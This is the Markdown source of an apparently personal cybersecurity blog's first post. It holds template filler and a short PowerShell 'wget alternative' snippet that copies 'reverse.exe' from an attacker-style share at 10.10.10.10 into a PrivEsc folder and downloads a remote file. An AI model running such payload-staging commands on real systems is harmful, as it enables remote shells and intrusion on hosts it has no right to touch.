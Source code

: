 ```yaml
---
title: Writing a New Post
author:
  name: Wrathdemon
  link: https://github.com/prabhatjoshi321
date: 2021-12-08 14:10:00 +0800
categories: [Blogging, Tutorial]
tags: [writing]    # TAG names should always be lowercase
---
```



# This is a first blog post
```

hello world


```
{: file="c/users/hello.txt" }


####  wget alternative in windows
```powershell
	copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe

	$client = new-object System.Net.WebClient
	$client.DownloadFile("http://www.xyz.net/file.txt","C:\tmp\file.txt")

```
## Shell

```console
foo@bar:~$ whoami
foo
```

## Zsh

```console
joshi@joshi $ git clone https://github.com/prabhatjoshi321/cyberblog.ml.git
Cloning into 'cyberblog.ml'...
remote: Enumerating objects: 6112, done.
remote: Total 6112 (delta 0), reused 0 (delta 0), pack-reused 6112
Receiving objects: 100% (6112/6112), 2.71 MiB | 415.00 KiB/s, done.
Resolving deltas: 100% (3565/3565), done.

```
{: .nolineno}

